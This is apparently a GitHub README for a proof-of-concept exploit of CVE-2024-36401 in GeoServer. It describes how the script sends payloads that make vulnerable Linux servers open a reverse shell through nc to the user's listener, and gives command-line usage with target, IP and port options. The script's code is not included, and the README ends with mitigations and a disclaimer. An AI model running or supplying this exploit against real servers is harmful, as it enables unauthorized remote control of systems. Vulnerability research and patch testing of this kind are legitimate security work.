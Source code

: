 # RCE for CVE-2024-36401
POC for CVE-2024-36401 GeoServer. This POC will attempt to establish a reverse system shell from the targets.


![Banner](screens/screen.jpg)


## Overview

POC for CVE-2024-36401: RCE for GeoServer version prior to 2.25.1, 2.24.3 and 2.23.5 of GeoServer. This POC is based on the security advisory by [phith0n](https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2024-36401).


## How it Works

1. Sets up a listener on your machine for incoming reverse shell from the target.
2. This POC will send a post request with the payloads.
3. Attempts to establish a shell on the target server.
4. This technique assumes nc is installed on the target.

## How to Use

This POC will attempt to establish a reverse shell from the vlun targets. This is aimed to work against vlun Linux targets. You will have to have a machine with published and accessiable IP in order to run this poc.


### Minimum Requirements

- Python 3.6 or higher
- `requests` library
  
To use this POC against a single target:
```sh
python CVE-2024-36401.py -u HTTP://TARGET:9090 -ip YOUR-IP -port LOCAL-PORT-NUMBER -type GeoServer-Object-Type
```

Help:
```sh
python3 CVE-2024-36401.py  -h

options:
  -h, --help  show this help message and exit
  -u U        Target, example https://target:8080
  -ip IP      Your IP, example 192.168.1.1
  -port PORT  Port, example 1337
  -type TYPE  Type, example sf:archsites
```

## How to Protect Your GeoServer Appliance

1- Disable WFS requests.

2- Secure your linux by configuring iptables to disable reverse connections, set default policies to drop all traffic, allow established and related connections, and permit only essential outbound traffic like DNS, HTTP, and HTTPS

3- Or upgrade to the latest version of GeoServer. 


## Contact

For any suggestions or thoughts, please get in touch with [me](https://x.com/MohamedNab1l).


## Disclaimer

I like to create my own tools for fun, work and educational purposes only. I do not support or encourage hacking or unauthorized access to any system or network. Please use my tools responsibly and only on systems where you have clear permission to test.

